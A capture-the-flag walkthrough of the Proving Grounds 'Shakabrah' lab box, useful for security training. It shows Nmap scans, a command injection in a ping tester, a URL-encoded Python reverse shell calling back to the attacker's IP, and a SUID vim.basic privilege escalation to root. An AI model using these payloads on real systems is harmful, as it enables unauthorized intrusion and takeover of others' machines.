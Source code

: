# PG Play - Shakabrah

#### Ip: 192.168.241.86
#### Name: Shakabrah
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -p-  --min-rate 10000 192.168.241.86
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:51 CDT
Nmap scan report for 192.168.241.86
Host is up (0.066s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -sC -sV 192.168.241.86 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:52 CDT
Nmap scan report for 192.168.241.86
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

Navigating to the site we find a "Connection Tester" that will ping supplied IP adresses. 

![site.png](../assets/shakabrah_assets/site.png)

And we can confirm we can ping localhost:

![local.png](../assets/shakabrah_assets/local.png)

Playing around with this field a bit, I disvocered we can chain commands after adding a `;` character:

![code.png](../assets/shakabrah_assets/code.png)

Lets try to exploit this to get a reverse shell:

### Exploitation

Heading over to https://www.revshells.com/ I can grab the following reverse shell one-liner and conveniently URL encoded it there as well:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.197",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After URL encoding it and setting up a listener I can navigate to:

192.168.241.86/?host=127.0.0.1;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.197%22%2C80%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27

Which gets me a reverse shell back!

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ nc -lnvp 80 
listening on [any] 80 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.241.86] 50098
$ whoami
whoami
www-data
$ hostname
hostname
shakabrah
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ 
```

From here I can grab the local.txt flag in dylan's `/home` directory:

![user_flag.png](../assets/shakabrah_assets/user_flag.png)

### Privilege Escalation

Lets go ahead and transfer over a copy of LinPEAS to help enumerate:

Interesting, LinPEAS finds asomething with the SUID bit set called vim.basic. I'm wondering if this is just vim?

We can head over to https://gtfobins.github.io/gtfobins/vim/ and find a couple of commands to try:

![suid.png](../assets/shakabrah_assets/suid.png)

We'll need to make sure we use `vim.basic` and `:py3` to account for Python3 being in use on the box.

Lets run:

```text
./vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Which will give us a root shell and we can grab the final flag:

![root_flag.png](../assets/shakabrah_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------

